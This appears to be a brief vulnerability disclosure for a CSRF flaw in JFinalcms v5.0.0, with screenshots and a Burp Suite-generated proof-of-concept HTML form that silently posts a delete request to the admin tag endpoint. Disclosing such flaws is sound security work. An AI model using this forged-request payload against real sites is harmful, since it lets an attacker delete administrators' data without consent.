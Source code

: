 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component 

![图片](https://github.com/cui2shark/cms/assets/52313275/3153b64d-d8fb-4d3f-80ac-6753d696c025)


create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/9c89744b-d357-477f-af04-bd37b85ca502)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/tag/delete" method="POST">
      <input type="hidden" name="ids" value="4" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/9c9b9bff-5b7f-497a-92cd-23c1b778d6f9)
